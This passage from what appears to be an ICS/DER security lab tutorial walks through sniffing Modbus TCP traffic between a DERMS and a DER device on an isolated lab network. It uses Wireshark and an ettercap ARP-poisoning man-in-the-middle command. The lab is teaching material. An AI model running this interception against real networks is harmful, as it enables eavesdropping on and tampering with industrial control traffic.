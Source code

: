 	There are three ethernet interfaces on this Kali VM.  The first is the loopback interface `lo`, the second is VM NAT network interface `eth0`, and the last is the NIC on the `10.10.0.10/24` network. We want to use the last one. 
	
3. Start a Wireshark session by clicking on the Kali Linux icon in the upper left, going to `09 - Sniffing % Spoofing` -> `wireshark`. 

	Start a session on `eth1`. 
	
4. On your Windows machine, open the SVP Dashboard and connect to the DER device. Click on the link to open `http://localhost:8444` in the Firefox browser. Go to `Device` -> `Open...` and enter the following:

	`Device Type: Modbus TCP`  
	`IP Address: 10.10.0.100`  
	`IP Port: 502`  
	`Slave ID: 1`  
	`Timeout (secs): 5`

	Click `Open`. 

5. You should see the Modbus Common Model (model 1) data for the DER device as before. To get that information there was a holding register read of the Modbus server running on the DER device.  Go back to the Wireshark session on the Kali machine and filter for `modbus`.  You should not see any traffic. This is because the switch between the machines only directs traffic to IP addresses associated with their Media Access Control (MAC) address. The Address Resolution Protocol (ARP) is used to determine the mapping between IP address and MAC addresses.  However, this protocol can be abused to sniff traffic between endpoints by telling the networking equipment that our MAC address is actually associated with the IPs where the traffic is being sent. 

5. We will use `ettercap`, a multipurpose sniffer/content filter, to capture traffic running from the DERMS to the DER with the following command.  Enter this in a new terminal: 

	`sudo ettercap -T --iface eth1 -M arp:remote /10.10.0.100// /10.10.0.50//`
	
	Enter the Kali password, `kali`, if prompted.

	This command says that we'll be poisoning the ARP tables to intercept traffic between `10.10.0.100` and `10.10.0.50`.  Once it's running you can type `h` to see the list of commands: 
	
	```
	Inline help:
	 [vV]      - change the visualization mode
	 [pP]      - activate a plugin
	 [fF]      - (de)activate a filter
	 [lL]      - print the hosts list
	 [oO]      - print the profiles list
	 [cC]      - print the connections list
	 [rR]      - adjust SSL intercept rules
	 [sS]      - print interfaces statistics
	 [<space>] - stop/cont printing packets
	 [qQ]      - quit
	```
	
	You can then type `L` to pring the hosts list:
	
	```
	Hosts list:
	1)      10.10.0.50      00:0C:29:A8:0A:BE
	2)      10.10.0.100     00:0C:29:1A:2C:0B
	```
	